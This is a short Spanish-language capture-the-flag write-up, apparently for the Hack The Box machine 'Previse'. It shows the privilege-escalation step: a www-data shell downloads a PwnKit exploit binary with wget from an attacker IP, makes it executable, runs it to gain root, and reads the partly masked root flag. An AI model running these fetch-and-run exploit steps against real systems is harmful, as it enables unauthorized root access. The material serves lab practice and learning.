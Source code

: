 ```bash 
www-data@previse:/tmp$ wget http://10.10.16.4/PwnKit
--2022-01-30 13:31:34--  http://10.10.16.4/PwnKit
Connecting to 10.10.16.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14688 (14K) [application/octet-stream]
Saving to: 'PwnKit'

PwnKit              100%[===================>]  14.34K  --.-KB/s    in 0.1s    

2022-01-30 13:31:34 (125 KB/s) - 'PwnKit' saved [14688/14688]
``` 
Verificando que tenemos el archivo, procedemos a darle permisos para ejecutarlo
```bash
www-data@previse:/tmp$ ls
PwnKit  test
www-data@previse:/tmp$ chmod +x PwnKit 
```
Ejecutamos el exploit PwnKit

```bash
www-data@previse:/tmp$ ./PwnKit 
root@previse:/tmp# whoami
root
```
Sacando la Flag para Root
```bash
root@previse:/tmp# cd /root
root@previse:~# ls
root.txt
root@previse:~# cat root.txt 
xxxxxxxxdfadb7ab19dc709216xxxxxxxxx
root@previse:~# 
```

Maquina Pwned Previse PwnKit OS Injection 